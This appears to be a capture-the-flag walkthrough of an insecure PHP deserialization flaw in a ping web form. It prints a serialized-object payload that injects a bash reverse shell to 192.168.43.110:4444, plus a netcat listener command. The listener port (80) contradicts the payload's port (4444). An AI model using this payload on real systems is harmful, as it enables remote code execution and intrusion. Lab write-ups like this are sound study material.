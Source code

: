 The script seems to accept a serialized pingTest object via HTTP POST. It then deserializes the object passed from HTTP post, calls the validate function, and in turn calls the ping function. We can therefore see that when we type in an IP address on the web form and click submit, Javascript serializes the object ready for PHP, and then passes that object to the PHP script. The script validates the IP address value within the object and then proceeds to ping it if the IP address is vaild.

To ping the IP address, the shell_exec command is called which simply executes the command on the local system. The reason our initial command injection attempt didn’t work was because our IP Address input did not pass the IP address validation.

However, as the script unseriealizes the entire pingTest object submitted via HTTP post, we can look to set the ‘isValid’ boolean, and trick the script into thinking the IP address with an additional command we supply is valid, gaining remote code execution on the system.

When we ping a website from the web form, we see the serialized object being sent from the web form to the PHP script. Only the ipAddress variable is supplied though – isValid is not supplied by the web form at all.

captured request in burp suite:

![Markdown Logo](/home/d4rk5id3/Documents/cereal/21.png)

now lets create a payload, injecting our own command but supplying the isValid variable to bypass IP validation. To do this, we can create a PHP file on our attacker system:




``` 
<?php

class pingTest {
        public $ipAddress = " ; bash -c 'bash -i >& /dev/tcp/192.168.43.110/4444 0>&1'";
        public $isValid = True;

}

echo urlencode(serialize(new pingTest));

?>

 ```

 now we save this file and run it using 

 ***command***: php <file_name>

now we get a URl Encoded serialized object which we would input into the burp suite intercepted request.

![Markdown Logo](/home/d4rk5id3/Documents/cereal/22.png)


let's not forget to setup our listener on the same port used in the php script.

***command***: nc -lnvp 80

![Markdown Logo](/home/d4rk5id3/Documents/cereal/23.png)

